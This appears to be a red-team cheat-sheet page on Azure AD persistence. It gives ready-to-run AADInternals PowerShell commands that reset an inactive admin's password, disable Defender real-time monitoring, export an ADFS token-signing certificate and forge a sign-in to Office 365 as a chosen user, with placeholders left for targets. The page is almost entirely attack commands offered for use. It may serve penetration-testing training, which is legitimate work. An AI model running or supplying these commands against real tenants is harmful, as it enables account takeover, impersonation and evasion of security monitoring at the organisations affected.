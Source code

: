 ```yaml
---
title: Persistence
description: Recon
position: 5
---
```


# Persistence

## Reactivate a inactive Admin

There are times when a inactive admin is just there waiting to be activated

```powershell
# Get immutableid
Get-AADIntUser - UserPrincipalName {{ Email mail@mail.com }}| select ImmutableId

# Reset onpremadmin password
Set-AADIntUserPassword - SourceAnchor "{{ ImmutableId immutableid }}" -Password "{{ Password SuperSecretpass#12321 }}" –Verbose
```

## Extract ADFS token-signing certificate

Many organizations setup the ADFS role to be Domain Admin on the on premise domain controller. If this is the case we can get a domain admin powershell session using the known credentials.

To export the certificate we will need to copy AADInternals as well:

```powershell 
Copy-Item -ToSession {{ PSSession $pssession }} -Path C:\AzAD\Tools\AADInternals.0.4.5.zip -Destination C:\Users\adconnectadmin\Documents

Enter-PSSession {{ PSSession $pssession }}

Set-MpPreference - DisableRealtimeMonitoring $true
Expand-Archive C:\Users\adconnectadmin\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\adconnectadmin\Documents\AADInternals
Import-Module C:\Users\adconnectadmin\Documents\AADInternals\AADInternals.psd1
```

To export the signing certificate there is a easy to use cmdlet:

```powershell
# Export the token signing certificate
Export-AADIntADFSSigningCertificate
```

We also need the ImmutableID of the user, this can be obtained from any machine

```powershell
# Get ImmutableID of the user in a machine
Import-Module C:\AzAD\Tools\ADModule\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AzAD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1

[System.Convert]::ToBase64String((Get-ADUser -Identity {{ Username username }} -Server {{ IP ip }} -Credential $creds | select -ExpandProperty ObjectGUID).tobytearray())
```

Then we can use the token signing certificate for the user and machine that we want to compromise

```powershell
# Use token with the inmutableID
Open-AADIntOffice365Portal -ImmutableID {{ ImmutableID immutableid }}-Issuer {{ IssuerURI http://deffin.com/adfs/services/trust }} -PfxFileName {{ CertificatePath C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx }} -Verbose
```

It will generate a html that can be copied to our machine

```powershell
ls C:\Users\adfsadmin\AppData\Local\Temp\*.tmp.html

Copy-Item -FromSession $adfs -Path C:\Users\adfsadmin\AppData\Local\Temp\tmp9E0F.tmp.html -Destination C:\AzAD\Tools\
```

Opening such HTML in the machine provide access with the configured user for the configured tenant